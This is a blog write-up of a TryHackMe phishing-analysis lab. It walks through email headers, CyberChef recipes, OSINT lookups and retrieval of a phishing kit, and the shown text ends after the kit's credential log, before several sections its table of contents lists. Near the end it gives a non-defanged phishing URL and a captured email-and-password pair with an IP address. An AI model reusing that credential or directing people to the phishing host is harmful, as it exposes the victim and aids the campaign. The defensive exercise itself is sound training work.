









### Level: **_Easy_**


#### Introduction


Apply learned skills to probe malicious emails and URLs, exposing a vast phishing campaign.

Thanks to [**tryhackme**](https://tryhackme.com/p/tryhackme) and [**Orzykf**](https://tryhackme.com/p/Orzykf) for the room on TryHackMe!


---


#### Table of Content


1. [Level: Easy](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#level-easy)

   1. [Introduction](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#introduction)

   2. [Table of Content](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#table-of-content)

   3. [Challenge Scenarion](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#challenge-scenarion)

      1. [DISCLAIMER](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#disclaimer)
      2. [An Ordinary Midsummer Day...](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#an-ordinary-midsummer-day)

   4. [What do we have?](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#what-do-we-have)

   5. [CyberChef](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#cyberchef)

      1. [cyberchef.io](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#cyberchef-io)
      2. [Let's sort the information](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#let-s-sort-the-information)

   6. [CyberChef Recipes](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#cyberchef-recipes)

      1. [EXTRACT EMAIL ADDRESSES](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#extract-email-addresses)
      2. [DEFANG URL](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#defang-url)
      3. [MAGIC](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#magic)
      4. [FROM BASE64](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#from-base64)
      5. [REVERSE](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#reverse)

   7. [View the Mails](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#view-the-mails)

      1. [Thunderbird](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#thunderbird)

   8. [OSINT](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#osint)

      1. [VIRUSTOTAL](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#virustotal)
      2. [THREATBOOK.IO](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#threatbook-io)

   9. [Sandbox Browser](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#sandbox-browser)

      1. [BROWSERLING](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#browserling)

   10. [Download the ZIP](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#download-the-zip)

       1. [LINUX TERMINAL](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#linux-terminal)
       2. [SEARCH THE SHA256 HASH ON VIRUSTOTAL](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#search-the-sha256-hash-on-virustotal)

   11. [Examine the PHISHING LINK closer](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#examine-the-phishing-link-closer)

       1. [submit.php](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#submit-php)
       2. [update.cmd](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#update-cmd)

   12. [Get the Flag !](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#get-the-flag)

       1. [REVERSED](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#reversed)
       2. [IDENTIFY STRING WITH CyberChef.IO](https://salucci.ch/2023/07/11/ctf-tryhackme-snapped-phish-ing-line/#identify-string-with-cyberchef-io)


---


#### Challenge Scenarion


##### DISCLAIMER


Based on _**real-world occurrences** \_and \*\*\_past analysis_\*\*, this scenario presents a narrative with invented names, characters, and events.


**_Please note_**  
The phishing kit used in this scenario was retrieved from a real-world phishing campaign.  
Hence, it is advised that interaction with the phishing artefacts be done only inside the attached **VM**, as it is an isolated environment.


##### An Ordinary Midsummer Day...


As an IT department personnel of SwiftSpend Financial, one of your responsibilities is to support your fellow employees with their technical concerns. While everything seemed ordinary and mundane, this gradually changed when several employees from various departments started reporting an unusual email they had received. Unfortunately, some had already submitted their credentials and could no longer log in.


**You now proceeded to investigate what is going on by:**


1. 
2. Analysing the email samples provided by your colleagues.
3. 
4.
5. 
6. Analysing the phishing URL(s) by browsing it using Firefox.
7. 
8.
9. 
10. Retrieving the phishing kit used by the adversary.
11. 
12.
13. 
14. Using CTI-related tooling to gather more information about the adversary.
15. 
16.
17. 
18. Analysing the phishing kit to gather more information about the adversary.
19. 





---


#### What do we have?


- 
-
- 


- 

- **5x \*.eml files**

  

  - 
  - An .eml file is an email message stored in the [MIME RFC 822 standard format](https://datatracker.ietf.org/doc/html/rfc822). **MIME** stands for **M**ultipurpose **I**nternet **M**ail **E**xtensions and is an Internet standard that enables the exchange of various types of data - such as **text, audio, video, applications,** and **other types - over the Internet.**
  - 
  -
  - 
  - **EML** files can contain the actual text of the e-mail message, as well as **attachments, hyperlinks, **and **header information** (such as the sender, recipients, date, and subject of the e-mail). They can also contain **HTML** and **rich text formatting.**
  - 

  

- 


---


#### CyberChef


##### [cyberchef.io](https://cyberchef.io/)


```
> Drag'n'Drop a email into CyberChef
```





##### Let's sort the information


| Information                                                         | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **From:**                                                           | **Group Marketing Online Accounts Payable** Accounts.Payable@groupmarketingonline.icu                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| **To:**                                                             | **Derick Marshall** derick.marshall@swiftspend.finance                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Subject:**                                                        | Group Marketing Online Direct Credit Advice - derick.marshall@swiftspend.finance                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Date:**                                                           | **Sun, 28 Jun 2020 17:01:33** -0500                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Received:** route of the email from its origin to its destination | **SG2PR01MB4517.apcprd01.prod.exchangelabs.com**(YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) by **SG2PR01MB3173.apcprd01.prod.exchangelabs.com** with HTTPS; **Sun, 28 Jun 2020 22:01:56 +0000** from **SG2PR02CA0042.apcprd02.prod.outlook.com** (YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) by **SG2PR01MB4517.apcprd01.prod.exchangelabs.com** (YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) withMicrosoft SMTP Server (version=TLS1*2,cipher=TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384) id 15.20.6134.30; **Sun, 28 Jun 2020 22:01:55 +0000** **SG2APC01FT0068.eop-APC01.prod.protection.outlook.com**(YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) by **SG2PR02CA0042.outlook.office365.com**(YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) with Microsoft SMTP Server (version=TLS1_2,cipher=TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384) id 15.20.6134.30 via FrontendTransport; **Sun, 28 Jun 2020 22:01:55 +0000** **NAM10-MW2-obe.outbound.protection.outlook.com** (X.X.X.X) by **SG2APC01FT0068.mail.protection.outlook.com** (X.X.X.X) with Microsoft SMTPServer (version=TLS1_2, cipher=TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384) id15.20.6156.17 via Frontend Transport; **Sun, 28 Jun 2020 22:01:53 +0000** **DM6PR01CA0012.prod.exchangelabs.com** (YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) by **CPUPR80MB6849.lamprd80.prod.outlook.com** (YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) withMicrosoft SMTP Server (version=TLS1_2,cipher=TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384) id 15.20.6134.29; **Sun, 28 Jun 2020 22:01:46 +0000** **DM3NAM02FT055.eop-nam02.prod.protection.outlook.com**(YYYY:YYYY:YYYY:YYYY:YYYY:YYYY)by **DM6PR01CA0012.outlook.office365.com**(YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) with Microsoft SMTP Server (version=TLS1_2,cipher=TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384) id 15.20.6134.29 via FrontendTransport; **Sun, 28 Jun 2020 22:01:46 +0000** **apicap.org** (X.X.X.X) by **DM3NAM02FT055.mail.protection.outlook.com** (\*\*\_10.13.5.136***) with Microsoft SMTPServer id 15.20.6156.16 via Frontend Transport; **Sun, 28 Jun 2020 22:01:45 +0000\*\* **ME2PR01MB6033.ausprd01.prod.outlook.com** (YYYY:YYYY:YYYY:YYYY:YYYY:YYYY)by **SYBPR01MB8554.ausprd01.prod.outlook.com** with HTTPS; **Sun, 28 Jun 2020 22:01:39 +0000** **SG2PR03CA0101.apcprd03.prod.outlook.com** (YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) by **ME2PR01MB6033.ausprd01.prod.outlook.com** (YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) with MicrosoftSMTP Server (version=TLS1*2, cipher=TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384) id15.20.6156.17; **Sun, 28 Jun 2020 22:01:36 +0000** **SG2APC01FT0063.eop-APC01.prod.protection.outlook.com**(YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) by **SG2PR03CA0101.outlook.office365.com**(YYYY:YYYY:YYYY:YYYY:YYYY:YYYY) with Microsoft SMTP Server (version=TLS1_2,cipher=TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384) id 15.20.6156.16 via FrontendTransport; **Sun, 28 Jun 2020 22:01:36 +0000** \*\*\_mail1.groupmarketingonline.icu*** (X.X.X.X) by **SG2APC01FT0063.mail.protection.outlook.com** (X.X.X.X) with Microsoft SMTPServer id 15.20.6156.17 via Frontend Transport; **Sun, 28 Jun 2020 22:01:34+0000** from **_ADRLY01.groupmarketingonline.icu_** (Not Verified) by **_mail1.groupmarketingonline.icu_** with Trustwave MailMarshal (v10,0,3,2387)id ; **_Mon, 29 Jun 2020 10:01:32 +1200_\*\* **_ADOUM01.groupmarketingonline.icu_** () **_by ADRLY01.groupmarketingonline.icu_** with Microsoft SMTPSVC(10.0.14393.4169); Mon, 29 Jun 2020 10:01:33 +1200 |
| **Content-Type:**                                                   | [MIME Types](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/MIME_types/Common_types) `.pdf` = `application/pdf` **`.html`** = `text/html`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |

Sort the information from CyberChef


---


#### CyberChef Recipes


##### EXTRACT EMAIL ADDRESSES


```
Accounts.Payable@groupmarketingonline.icu
derick.marshall@swiftspend.finance
<strong>9ZTKYQdyZIim@BRAEMARHOWELLS.COM</strong>
```


---


##### DEFANG URL


```plaintext
hxxp[://]kennaroads[.]buzz/data/Update365/office365/40e7baa2f826a57fcf04e5202526f8bd/?email=zoe[.]duncan@swiftspend[.]finance&error
```


---


##### MAGIC


```
Recipe (click to load)
                	Result snippet
                	Properties


                <strong>From_Base64</strong>('A-Za-z0-9+/=',true)

                	}****{MHT.
                	<strong>Valid UTF8</strong>
Entropy: 4.06
```


---


##### FROM BASE64


```
}****{MHT
```


---


##### REVERSE


```
REDACTED
```


---


#### View the Mails


##### [Thunderbird](https://www.thunderbird.net)


_Offer open source email app that's secure, private and free._





---


```
> Check all the mails, one has got an attachment *.pdf
> E-Mail Address was always used the same
> Open the mail <strong>Group Marketing Online Direct Credit Advice - zoe.duncan@swiftspend.finance.eml</strong>

<strong>### IMPORTANT NOTE ###</strong>
- If you are not using the TryHackMe VM - <span style="text-decoration: underline">do not open</span> the *.html file on your system !
- If you use a vm - check that <span style="text-decoration: underline">internet is disabled</span> !
```


---


#### OSINT


##### [VIRUSTOTAL](https://www.virustotal.com/gui/home/upload)


```plaintext
> Let's search for <a rel="noreferrer noopener" href="https://www.virustotal.com/gui/url/6bb127f7c979602de932ca2b62c2f10f5b9c463de0069b5a92b998751a00f5d0" target="_blank"><strong>kennaroad[.]buzz on VirusTotal</strong></a>
```








---


##### [THREATBOOK.IO](https://threatbook.io/domain/kennaroads.buzz)





---


#### Sandbox Browser


##### [BROWSERLING](https://www.browserling.com/)





```plaintext
> Since it is planned to use the TryHackMe VM, try to open the link inside it.
  + not working...

> Try to shorten the link
  + maybee: <strong><span style="text-decoration: underline">hxxp[://]kennaroads[.]buzz/data/</span></strong>

> Now you should have found the <strong>*.zip</strong> file
  + remember to always use the CyberChef - Recipe [ <strong><em><a href="https://cyberchef.io/#recipe=Defang_URL(true,true,true,'Valid%20domains%20and%20full%20URLs')" target="_blank" rel="noreferrer noopener">Defang URL</a></em></strong> ]
```


---


#### Download the ZIP


##### LINUX TERMINAL


```
cd Downloads
ls
sha256sum Update365.zip
ba3c15267393419eb08c7b2652b8b6b39b406exxxxxxxxxxxxxxxxxxxxxxxxx  Update365.zip
```


---


##### SEARCH THE [SHA256 HASH ON VIRUSTOTAL](https://www.virustotal.com/gui/file/ba3c15267393419eb08c7b2652b8b6b39b406ef300ae8a18fee4d16b19ac9686)








---


#### Examine the PHISHING LINK closer


```
> Go check out: <strong>http://kennaroads.buzz/data/Update365/log.txt</strong>

---------+ Office365 Login  |+-------
Email : isaiah.puzon@gmail.com
Password : PhishMOMUKAMO123!
-----------------------------------
Client IP: 158.62.17.197
